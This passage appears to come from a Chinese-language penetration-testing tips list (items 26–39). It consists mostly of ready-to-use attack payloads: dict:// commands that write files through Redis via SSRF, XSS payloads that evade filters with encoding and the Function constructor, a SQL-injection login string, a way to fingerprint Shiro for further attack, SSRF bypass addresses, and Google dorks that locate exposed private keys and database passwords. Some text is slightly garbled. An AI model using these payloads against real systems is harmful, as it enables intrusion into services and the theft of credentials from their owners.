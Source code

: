 26、一款生成gopher协议payload的工具：
Default
https:&#47;&#47;github.com/firebroo/sec_tools

27、Dict协议写入流程：
Default
1.写入内容；<br>dict://127.0.0.1:6379/set❌test<br>2.设置保存路径；<br>dict://127.0.0.1:6379/config:set:dir:/tmp/<br>3.设置保存文件名；<br>dict://127.0.0.1:6379/config:set:dbfilename:1.png<br>4.保存。<br>dict://127.0.0.1:6379/save

28、CentOS 7系统利用suid提权获取Root Shell
Default
https:&#47;&#47;www.freebuf.com/articles/system/244627.html

29、xss中标签利用的payload：
Default
&lt;a href=javascript:alert(1)&gt;xx&lt;/a&gt;

30、XSS过滤了单引号，等号可以：
Default
①、使用：String.fromCharCode(97,108,101,114,116,40,49,41);<br>为alert(1)，该方法输出的结果为字符串，可以使用eval()进行执行，即弹框操作<br>eval(String.fromCharCode(97,108,101,114,116,40,49,41));<br>②、atob函数：<br>eval(atob`YWxlcnQoMSk=`) 为 eval(atob`alert(1)`) 其中`为反引号

31、XSS过滤了单引号，等号以及圆括号，eval：
Default
①、过滤了eval函数可以用其他函数去绕过，如：Function，constructor<br>Function`a${atob`YWxlcnQoMSk=`}```<br>``.constructor.constructor`a${atob`YWxlcnQoMSk=`}```

32、可使用下面命令查看是否处在docker虚拟机中
Default
cat /proc/1/cgroup

33、万能密码试试’=0#34、CORS漏洞验证，可以使用curl来验证：
Default
curl https://www.xxxx.com -H "Origin: https://test.com" -I<br>检查返回包的 Access-Control-Allow-Origin 字段是否为https://test.com

35、在盲测目标系统是否为Shiro时，可以在Cookie中手动构造rememebrMe=xxx

如果返回包中Set-Cookie中存在rememberMe=deleteMe，则证明该系统使用了Shiro，因此可以进一步攻击。

36、使用正则获取网站中所包含的其他URL：
Default
cat file | grep -Eo "(http|https)://&#91;a-zA-Z0-9./?=_-]*"*<br>curl http://host.xx/file.js | grep -Eo "(http|https)://&#91;a-zA-Z0-9./?=_-]*"*

37、常见的一些远程命令执行（RCE）参数，详情，请看dicts目录下的RCE-extentions.txt文件。

38、绕过SSRF防护的几个小方法：
Default
A、绕过SSRF限制通过CIDR，如：<br>http://127.127.127.127<br>http://127.0.0.0<br>B、不完整的地址，如：<br>http://127.1<br>http://0<br>C、将地址结合在通过特殊字符结合在一起，如：<br>http://1.1.1.1 &amp;@2.2.2.2# @3.3.3.3/<br>urllib : 3.3.3.3<br>D、绕过解析器，如：<br>http://127.1.1.1:80\@127.2.2.2:80/<br>E、绕过localhost通过&#91;::]，如：<br>http://&#91;::]:80/<br>http://0000::1:80/

39、几个常用的Google语法：
Default
inurl:example.com intitle:"index of"<br>inurl:example.com intitle:"index of /" "*key.pem"<br>inurl:example.com ext:log<br>inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv<br>inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
